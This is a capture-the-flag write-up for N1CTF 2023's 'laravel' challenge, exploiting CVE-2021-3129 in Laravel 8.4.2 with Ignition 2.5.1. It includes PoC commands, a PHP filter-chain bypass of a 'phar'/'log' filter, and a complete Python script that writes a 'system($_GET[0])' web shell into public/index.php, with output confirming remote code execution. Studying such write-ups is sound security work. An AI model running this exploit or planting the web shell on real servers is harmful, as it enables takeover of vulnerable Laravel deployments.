





# laravel

## Description



> no phar:_)
>
> Challenges Hints:
> The container might initially show a 502 error. Please be patient and wait for a moment.
>
> Challenges Hints:
> Apologies for any discrepancies due to remote environment configuration issues. In the remote environment, only the "public/index.php" file can be modified.

## Solution

### Vulnerability Detection

Starting this challenge container and looking at.



There is [Dockerfile link](https://github.com/venenof7/n1ctf2023) and this link is GitHub reposiory.

```dockerfile
FROM ubuntu:20.04
RUN LANGUAGE=en_US
ARG DEBIAN_FRONTEND=noninteractive
ENV TZ=Asia/Shanghai
RUN apt-get update
RUN apt-get install -y zip
RUN apt-get install -y php
RUN apt-get install -y php-curl php-common php-cli php-mbstring php-xml php-zip
RUN php -r "copy('https://getcomposer.org/installer', 'composer-setup.php');" \
    && php composer-setup.php \
    && php -r "unlink('composer-setup.php');" \
    && mv composer.phar /usr/local/bin/composer \
    && chmod +x /usr/local/bin/composer

# Create a laravel project
RUN composer create-project --prefer-dist laravel/laravel /laravel "8.4.2"

WORKDIR /laravel

# Lock the ignition version
RUN composer require --dev facade/ignition==2.5.1

CMD ["php", "artisan", "serve", "--host", "0.0.0.0"]
```

In Dockerfile, it is installed Laravel 8.4.2 and ignition 2.5.1.
This application has CVE-2021-3129 [^1], which is exploitable with RCE.

### Try CVE-2021-3129 PoC

I have setup this application by the following command due to test in local.

```bash
docker build -t n1ctf2023/laravel .
docker run --rm --name n1ctf2023-laravel -p 8000:8000 -it n1ctf2023/laravel
```

There is a PoC [^2] in the article [^3] that explains this vulnerability in detail and I used it.
First, running the PoC to the local environment.

```bash
# download phpgcc for laravel-exploits dependencies
git clone https://github.com/ambionics/phpggc.git

git clone https://github.com/ambionics/laravel-exploits.git
cd laravel-exploits

php -d'phar.readonly=0' ../phpggc/phpggc --phar phar -o exploit.phar --fast-destruct monolog/rce1 system id

python3 ./laravel-ignition-rce.py http://127.0.0.1:8000/ exploit.phar
```

output:

```text
+ Log file: /laravel/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```

successed.
Next, I ran to the challenge container, but it failed.

output:

```text
+ Log file: /laravel/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
- Deserialisation failed ?!!
+ Logs cleared
```

To see what's going on, I uncommented out L127 of the exploit code [^4] to route the request via Burp Suite, ran it again, and looked at the response which get with Burp Suite's `Show respnse in browser`.
Then, I got the following source code:



```php
    public function makeOptional(array $parameters = [])
    {
        if (strpos($parameters['viewFile'], 'phar') !== false) {
            die("error,no!");
        }
        if (strpos($parameters['viewFile'], 'log') !== false) {
            die("error,no!");
        }
        $originalContents = file_get_contents($parameters['viewFile']);
        $newContents = str_replace('$' . $parameters['variableName'], '$' . $parameters['variableName'] . " ?? ''", $originalContents);
```

Original source code [^5] is the following:

```php
    public function makeOptional(array $parameters = [])
    {
        $originalContents = file_get_contents($parameters['viewFile']);
        $newContents = str_replace('$'.$parameters['variableName'], '$'.$parameters['variableName']." ?? ''", $originalContents);

        $originalTokens = token_get_all(Blade::compileString($originalContents));
        $newTokens = token_get_all(Blade::compileString($newContents));
```

Apparently, this challenge has some changes to the original `MakeViewVariableOptionalSolution.php`.
Therefore, if `$parameters['viewFile']` contains `phar` or `log`, the exploit fails.

Surely, when sending the request body below, `error,no!` was returned.

```json
{
    "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
    "parameters": {
        "viewFile": "foobarlog",
        "variableName": "doesnotexist"
    }
}
```

Therefore, I guess to require bypass this `phar` and `log` filtering and let RCE run.

Like the challenge container, I applied patch to `MakeViewVariableOptionalSolution.php` for `phar` and `log` filter in the local environment.

<details>

<summary>
    Steps to patch for <code>phar</code> and <code>log</code> filter
</summary>

1. Create the following `MakeViewVariableOptionalSolution.php`

   ```php
   <?php

   namespace Facade\Ignition\Solutions;

   use Facade\IgnitionContracts\RunnableSolution;
   use Illuminate\Support\Facades\Blade;

   use Illuminate\Support\Facades\Log;

   class MakeViewVariableOptionalSolution implements RunnableSolution
   {
       /** @var string */
       private $variableName;

       /** @var string */
       private $viewFile;

       public function __construct($variableName = null, $viewFile = null)
       {
           $this->variableName = $variableName;
           $this->viewFile = $viewFile;
       }

       public function getSolutionTitle(): string
       {
           return "$$this->variableName is undefined";
       }

       public function getDocumentationLinks(): array
       {
           return [];
       }

       public function getSolutionActionDescription(): string
       {
           $output = [
               'Make the variable optional in the blade template.',
               "Replace `{{ $$this->variableName }}` with `{{ $$this->variableName ?? '' }}`",
           ];

           return implode(PHP_EOL, $output);
       }

       public function getRunButtonText(): string
       {
           return 'Make variable optional';
       }

       public function getSolutionDescription(): string
       {
           return '';
       }

       public function getRunParameters(): array
       {
           return [
               'variableName' => $this->variableName,
               'viewFile' => $this->viewFile,
           ];
       }

       public function isRunnable(array $parameters = [])
       {
           return $this->makeOptional($this->getRunParameters()) !== false;
       }

       public function run(array $parameters = [])
       {
           $output = $this->makeOptional($parameters);
           if ($output !== false) {
               file_put_contents($parameters['viewFile'], $output);
           }
       }

       public function makeOptional(array $parameters = [])
       {
           if (strpos($parameters['viewFile'], 'phar') !== false) {
               die("error,no!");
           }
           if (strpos($parameters['viewFile'], 'log') !== false) {
               die("error,no!");
           }
           $originalContents = file_get_contents($parameters['viewFile']);
           $newContents = str_replace('$' . $parameters['variableName'], '$' . $parameters['variableName'] . " ?? ''", $originalContents);

           $originalTokens = token_get_all(Blade::compileString($originalContents));
           $newTokens = token_get_all(Blade::compileString($newContents));

           $expectedTokens = $this->generateExpectedTokens($originalTokens, $parameters['variableName']);

           if ($expectedTokens !== $newTokens) {
               return false;
           }

           return $newContents;
       }

       protected function generateExpectedTokens(array $originalTokens, string $variableName): array
       {
           $expectedTokens = [];
           foreach ($originalTokens as $token) {
               $expectedTokens[] = $token;
               if ($token[0] === T_VARIABLE && $token[1] === '$' . $variableName) {
                   $expectedTokens[] = [T_WHITESPACE, ' ', $token[2]];
                   $expectedTokens[] = [T_COALESCE, '??', $token[2]];
                   $expectedTokens[] = [T_WHITESPACE, ' ', $token[2]];
                   $expectedTokens[] = [T_CONSTANT_ENCAPSED_STRING, "''", $token[2]];
               }
           }

           return $expectedTokens;
       }
   }
   ```

1. Modify Dockerfile

   ```dockerfile
   FROM ubuntu:20.04
   RUN LANGUAGE=en_US
   ARG DEBIAN_FRONTEND=noninteractive
   ENV TZ=Asia/Shanghai
   RUN apt-get update
   RUN apt-get install -y zip
   RUN apt-get install -y php
   RUN apt-get install -y php-curl php-common php-cli php-mbstring php-xml php-zip
   RUN php -r "copy('https://getcomposer.org/installer', 'composer-setup.php');" \
       && php composer-setup.php \
       && php -r "unlink('composer-setup.php');" \
       && mv composer.phar /usr/local/bin/composer \
       && chmod +x /usr/local/bin/composer

   # Create a laravel project
   RUN composer create-project --prefer-dist laravel/laravel /laravel "8.4.2"

   WORKDIR /laravel

   # Lock the ignition version
   RUN composer require --dev facade/ignition==2.5.1

   # append this
   COPY MakeViewVariableOptionalSolution.php /laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php

   CMD ["php", "artisan", "serve", "--host", "0.0.0.0"]
   ```

1. Re-build docker image and run

    ```bash
    docker build -t n1ctf2023/laravel . && docker run --rm --name n1ctf2023-laravel -p 8000:8000 -it n1ctf2023/laravel
    ```

</details>

### Other Direction

> In the remote environment, only the "public/index.php" file can be modified.

Looking at this challenge hints, it describes that `public/index.php` file can be modified.
Although `laravel.log` file is modified to generate phar in the PoC, I'll think in the direction to modify `public/index.php` instead.

I searched around to see if I could use the PHP wrapper filter for `file_get_contents` function, and found the wupco's repository [^6].
I cloned this repository, and changed `file_to_use` variable value from `/etc/passwd` to `/laravel/public/index.php` in `test.py` (\*), executed `test.py`.
Then, set to viewFile in request json and sent request, but `invalid multibyte sequence` error was returned.
It seems to require to modify filter in PHP wrapper.



In order to check output `public/index.php` when `file_put_contents()` is executed, execute `test.py` and copy `test.php` (not .py) generated into the container, then execute `test.php`.

```console
$ docker cp test.php n1ctf2023-laravel:/tmp/test.php

$ docker exec -it n1ctf2023-laravel bash
root@d66466308735:/laravel# php /tmp/test.php
<?php eval($_GET[1]);?>a<?php

use Illuminate\Contracts\Http\Kernel;
// (snip)
$response = tap($kernel->handle(
    $request = Request::capture()
))->send();

$kernel->terminate($reroot@d66466308735:/laravel#
```

I could append `<?php eval($_GET[1]);?>a` at the beginning of `public/index.php`.
However, the end of this seems to cut off.

Even if it execute it, but failed.

```console
root@d66466308735:/laravel# php /tmp/test.php | php
PHP Parse error:  syntax error, unexpected end of file, expecting ')' in Standard input code on line 55
```

Now, looking back, I don't need to run the original index.php.
So I add filter to base64 encode `test.py`, specifically, add `convert.base64-encode` on top of `convert.iconv.UTF8.CSISO2022KR` (\*\*).
Also change the payload (\*\*\*).

Full diff in `test.py`:

```diff
diff --git a/test.py b/test.py
index 7c616cd..1792e7f 100644
--- a/test.py
+++ b/test.py
@@ -1,10 +1,13 @@
-file_to_use = "/etc/passwd"
+file_to_use = "/laravel/public/index.php"  # (*)

-#<?php eval($_GET[1]);?>a
-base64_payload = "PD9waHAgZXZhbCgkX0dFVFsxXSk7Pz5h"
+import base64
+base64_payload = base64.b64encode("<?php system($_GET[0]);?>aa".encode()).decode()  # (***)

-# generate some garbage base64
-filters = "convert.iconv.UTF8.CSISO2022KR|"
+filters = ""
+
+# base64encode original index.php because original index.php is not need to be executed
+filters += "convert.base64-encode|"  # (**)
+filters += "convert.iconv.UTF8.CSISO2022KR|"
 filters += "convert.base64-encode|"
 # make sure to get rid of any equal signs in both the string we just generated and the rest of the file
 filters += "convert.iconv.UTF8.UTF7|"
```

Executed `test.py` and sent the output, then 200 response was returned.

Then, requested <http://127.0.0.1:8000/?0=ls>, I confirmed to get RCE:

```console
$ curl http://127.0.0.1:8000/?0=ls
favicon.ico
index.php
robots.txt
web.config
aaPD9waHAgc3lzd(snip)
```

Did the same thing for the challenge container, I was able to RCE and get the flag.



FYI: I write down the full code for generating a payload for the PHP wrapper, modifying `public/index.php`, and running RCE.

<details><summary>code</summary>

```python
from pwn import args

import requests
import time
import base64

s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080"}

if args.REMOTE:
    BASE_URL = "http://chall-5853466647476b54.sandbox.ctfpunk.com"
    FILE_TO_USE = "/var/www/html/public/index.php"
else:
    BASE_URL = "http://127.0.0.1:8000"
    FILE_TO_USE = "/laravel/public/index.php"


def gen_payload():
    payload = "<?php system($_GET[0]);?>aa"
    base64_payload = base64.b64encode(payload.encode()).decode()

    # generate some garbage base64
    filters = ""
    filters += "convert.base64-encode|"
    filters += "convert.iconv.UTF8.CSISO2022KR|"
    filters += "convert.base64-encode|"
    # make sure to get rid of any equal signs in both the string we just generated and the rest of the file
    filters += "convert.iconv.UTF8.UTF7|"

    for c in base64_payload[::-1]:
        filters += open("./res/" + (str(hex(ord(c)))).replace("0x", "")).read() + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"

    # filters += "convert.base64-decode|"
    filters += "convert.base64-decode"

    final_payload = f"php://filter/{filters}/resource={FILE_TO_USE}"

    return final_payload


def send_payload(payload):
    data = {
        "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
        "parameters": {"variableName": "test", "viewFile": payload},
    }

    s.post(f"{BASE_URL}/_ignition/execute-solution", json=data)


def check():
    resp = s.get(f"{BASE_URL}/?0=ls")
    print(resp.text)


def main():
    payload = gen_payload()
    send_payload(payload)

    time.sleep(5)

    check()


if __name__ == "__main__":
    main()
```

Executed result:

```console
$ python3 test.py
favicon.ico
index.php
robots.txt
web.config
aa\x1b$)CPD9waHAgc3lzdGVtKCRfR0VUWzBdKTs/PmFhGyQpQ1BEOXdhSEFLQ25WelpTQkpiR3gxYldsdVlYUmxYRU52Ym5SeVlXTjBjMXhJZEhSd1hFdGxjbTVsYkRzS2RYTmxJRWxzYkhWdGFXNWhkR1ZjU0hSMGNGeFNaWEYxWlhOME93b0taR1ZtYVc1bEtDZE1RVkpCVmtWTVgxTlVRVkpVSnl3Z2JXbGpjbTkwYVcxbEtIUnlkV1VwS1RzS0NpOHFDbnd0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFFwOElFTm9aV05ySUVsbUlFRndjR3hwWTJGMGFXOXVJRWx6SUZWdVpHVnlJRTFoYVc1MFpXNWhibU5sQ253dExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExRcDhDbndnU1dZZ2RHaGxJR0Z3Y0d4cFkyRjBhVzl1SUdseklHMWhhVzUwWlc1aGJtTmxJQzhnWkdWdGJ5QnRiMlJsSUhacFlTQjBhR1VnSW1SdmQyNGlJR052YlcxaGJtUWdkMlVLZkNCM2FXeHNJSEpsY1hWcGNtVWdkR2hwY3lCbWFXeGxJSE52SUhSb1lYUWdZVzU1SUhCeVpYSmxibVJsY21Wa0lIUmxiWEJzWVhSbElHTmhiaUJpWlNCemFHOTNiZ3A4SUdsdWMzUmxZV1FnYjJZZ2MzUmhjblJwYm1jZ2RHaGxJR1p5WVcxbGQyOXlheXdnZDJocFkyZ2dZMjkxYkdRZ1kyRjFjMlVnWVc0Z1pYaGpaWEIwYVc5dUxncDhDaW92Q2dwcFppQW9abWxzWlY5bGVHbHpkSE1vWDE5RVNWSmZYeTRuTHk0dUwzTjBiM0poWjJVdlpuSmhiV1YzYjNKckwyMWhhVzUwWlc1aGJtTmxMbkJvY0NjcEtTQjdDaUFnSUNCeVpYRjFhWEpsSUY5ZlJFbFNYMTh1Snk4dUxpOXpkRzl5WVdkbEwyWnlZVzFsZDI5eWF5OXRZV2x1ZEdWdVlXNWpaUzV3YUhBbk93cDlDZ292S2dwOExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMEtmQ0JTWldkcGMzUmxjaUJVYUdVZ1FYVjBieUJNYjJGa1pYSUtmQzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0Q253S2ZDQkRiMjF3YjNObGNpQndjbTkyYVdSbGN5QmhJR052Ym5abGJtbGxiblFzSUdGMWRHOXRZWFJwWTJGc2JIa2daMlZ1WlhKaGRHVmtJR05zWVhOeklHeHZZV1JsY2lCbWIzSUtmQ0IwYUdseklHRndjR3hwWTJGMGFXOXVMaUJYWlNCcWRYTjBJRzVsWldRZ2RHOGdkWFJwYkdsNlpTQnBkQ0VnVjJVbmJHd2djMmx0Y0d4NUlISmxjWFZwY21VZ2FYUUtmQ0JwYm5SdklIUm9aU0J6WTNKcGNIUWdhR1Z5WlNCemJ5QjNaU0JrYjI0bmRDQnVaV1ZrSUhSdklHMWhiblZoYkd4NUlHeHZZV1FnYjNWeUlHTnNZWE56WlhNdUNud0tLaThLQ25KbGNYVnBjbVVnWDE5RVNWSmZYeTRuTHk0dUwzWmxibVJ2Y2k5aGRYUnZiRzloWkM1d2FIQW5Pd29LTHlvS2ZDMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRDbndnVW5WdUlGUm9aU0JCY0hCc2FXTmhkR2x2YmdwOExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0TFMwdExTMEtmQXA4SUU5dVkyVWdkMlVnYUdGMlpTQjBhR1VnWVhCd2JHbGpZWFJwYjI0c0lIZGxJR05oYmlCb1lXNWtiR1VnZEdobElHbHVZMjl0YVc1bklISmxjWFZsYzNRZ2RYTnBibWNLZkNCMGFHVWdZWEJ3YkdsallYUnBiMjRuY3lCSVZGUlFJR3RsY201bGJDNGdWR2hsYml3Z2QyVWdkMmxzYkNCelpXNWtJSFJvWlNCeVpYTndiMjV6WlNCaVlXTnJDbndnZEc4Z2RHaHBjeUJqYkdsbGJuUW5jeUJpY205M2MyVnlMQ0JoYkd4dmQybHVaeUIwYUdWdElIUnZJR1Z1YW05NUlHOTFjaUJoY0hCc2FXTmhkR2x2Ymk0S2ZBb3FMd29LSkdGd2NDQTlJSEpsY1hWcGNtVmZiMjVqWlNCZlgwUkpVbDlmTGljdkxpNHZZbTl2ZEhOMGNtRndMMkZ3Y0M1d2FIQW5Pd29LSkd0bGNtNWxiQ0E5SUNSaGNIQXRQbTFoYTJVb1MyVnlibVZzT2pwamJHRnpjeWs3Q2dva2NtVnpjRzl1YzJVZ1BTQjBZWEFvSkd0bGNtNWxiQzArYUdGdVpHeGxLQW9nSUNBZ0pISmxjWFZsYzNRZ1BTQlNaWEYxWlhOME9qcGpZWEIwZFhKbEtDa0tLU2t0UG5ObGJtUW9LVHNLQ2lSclpYSnVaV3d0UG5Sb
```

</details>

## Footnote

[^1]: [NVD - CVE-2021-3129](https://nvd.nist.gov/vuln/detail/CVE-2021-3129)
[^2]: [ambionics/laravel-exploits: Exploit for CVE-2021-3129](https://github.com/ambionics/laravel-exploits)
[^3]: [Laravel <= v8.4.2 debug mode: Remote code execution](https://www.ambionics.io/blog/laravel-debug-rce)
[^4]: [laravel-exploits/laravel-ignition-rce.py at 17192998891621bf27df3a9bd0591ee2e45dc611 · ambionics/laravel-exploits](https://github.com/ambionics/laravel-exploits/blob/17192998891621bf27df3a9bd0591ee2e45dc611/laravel-ignition-rce.py#L127)
[^5]: [ignition/src/Solutions/MakeViewVariableOptionalSolution.php at 2.5.1 · facade/ignition](https://github.com/facade/ignition/blob/2.5.1/src/Solutions/MakeViewVariableOptionalSolution.php#L73-L88)
[^6]: [wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)
